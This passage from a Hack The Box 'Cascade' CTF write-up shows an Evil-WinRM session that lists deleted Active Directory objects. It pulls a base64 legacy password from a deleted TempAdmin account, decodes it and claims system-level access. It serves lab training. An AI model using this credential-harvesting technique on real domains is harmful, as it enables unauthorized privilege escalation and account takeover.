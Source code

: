 ```powershell
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
.
.
.
.
.
.
Name                            : User
                                  DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : container
ObjectGUID                      : 746385f2-e3a0-4252-b83a-5a206da0ed88
ProtectedFromAccidentalDeletion : False
sDRightsEffective               : 0
showInAdvancedViewOnly          : True
uSNChanged                      : 196700
uSNCreated                      : 196690
whenChanged                     : 1/26/2020 2:40:52 AM
whenCreated                     : 1/26/2020 2:34:31 AM

accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
```

Here we get `TempAdmin` password we know both Admin and `TempAdmin` password is same.

We know its base64 encrypted so encoding it gives me that password.

```nix
root@kali:~/CTF/HTB/Boxes/Cascade# echo -n YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```

![Untitled](/img/htb-cascade/Untitled%205.png)

We own the System